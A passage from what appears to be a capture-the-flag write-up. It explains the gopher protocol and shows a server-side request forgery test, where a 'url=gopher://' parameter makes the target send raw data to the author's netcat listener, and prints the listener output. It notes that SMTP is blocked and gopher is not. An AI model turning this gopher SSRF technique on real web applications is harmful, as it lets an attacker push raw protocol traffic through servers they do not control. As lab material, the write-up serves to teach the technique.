SMTP is blocked as well. I could do some fuzzing from here, but the thing I
need to know is clear from the name of the box. Gopher is not blocked:

![image-20231024171231847](../img/image-20231024171231847.png)

I’ll look at the blocklist in Beyond Root.

### Email Jocelyn

#### Gopher Background

[Gopher](https://en.wikipedia.org/wiki/Gopher_\(protocol\)) is a protocol
designed for interacting with documents over IP networks. It was an
alternative to HTTP when the internet first came into being, and practically
isn’t used anymore.

What’s cool about the `gopher` while hacking is that it doesn’t use headers or
even newlines as part of the protocol. I’ll include a single character after
the `/`, and then the rest of the URL is considered the raw payload. For
example, if I access the following URL:

    
    
    /index.php?url=gopher://10.10.14.6:80/_this%20is%20a%20test
    

What reached my `nc` is:

    
    
    oxdf@hacky$ nc -lnvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.225 36342
    this is a test
    
